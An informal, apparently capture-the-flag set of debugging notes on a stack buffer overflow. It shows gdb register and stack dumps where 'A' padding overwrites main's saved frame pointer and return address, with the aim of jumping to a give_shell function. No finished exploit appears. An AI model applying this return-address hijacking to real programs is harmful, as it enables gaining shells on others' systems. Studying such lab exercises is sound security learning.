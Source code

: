 ```
rip            0x7ffff7e1db30      0x7ffff7e1db30 <__printf>
eflags         0x202               [ IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) x/28x $sp
0x7fffffffddc8: 0x00400714      0x00000000      0x41414141      0x41414141
0x7fffffffddd8: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffdde8: 0x41414141      0x41414141      0x00000041      0x00000000
0x7fffffffddf8: 0xf7df26ca      0x00007fff      0x00000000      0x00000000
0x7fffffffde08: 0x004006d6      0x00000000      0x00000000      0x00000001
0x7fffffffde18: 0xffffdf08      0x00007fff      0xffffdf08      0x00007fff
0x7fffffffde28: 0xd399178f      0x464e0bee      0x00000000      0x00000000
```
It looks like our As have some space to expand into


Gonna start scripting this now
Wait, I'm thinking about this all wrong, I don't want to call `printf` on a flag value stored in the program, I want to call `give_shell` when `gets` returns
Okay, fuck, this is fine
Want the breakpoint at the return call I think!
` 0x00007ffff7e400df <+143>:    ret`
Got it with my script..yeah!

But More A's does not seem to overwrite our return address...

It seems to overwrite data lower on the stack:
```
```

Well, I did get a segfault with 50 A's, I just wish I could see what was being called

OHHH LOOK AT THAT
so if we focus on when `main` returns, WE'RE GOLDEN
```
Program received signal SIGSEGV, Segmentation fault.
0x000000000040071a in main ()
(gdb) disas main
Dump of assembler code for function main:
...omitted for brevity...
   0x000000000040070f <+57>:    call   0x400560 <printf@plt>
   0x0000000000400714 <+62>:    mov    $0x0,%eax
   0x0000000000400719 <+67>:    leave
=> 0x000000000040071a <+68>:    ret
End of assembler dump.
(gdb) info registers
rax            0x0                 0
rbx            0x7fffffffdf08      140737488346888
rcx            0x0                 0
rdx            0x0                 0
rsi            0x7fffffffdc20      140737488346144
rdi            0x7fffffffdbf0      140737488346096
rbp            0x4141414141414141  0x4141414141414141
rsp            0x7fffffffddf8      0x7fffffffddf8
rip            0x40071a            0x40071a <main+68>
...omitted for brevity
(gdb) x.28x $sp
Undefined command: "x.28x".  Try "help".
(gdb) x/28x $sp
0x7fffffffddf8: 0x41414141      0x41414141      0x00004141      0x00000000
0x7fffffffde08: 0x004006d6      0x00000000      0x00000000      0x00000001
0x7fffffffde18: 0xffffdf08      0x00007fff      0xffffdf08      0x00007fff
```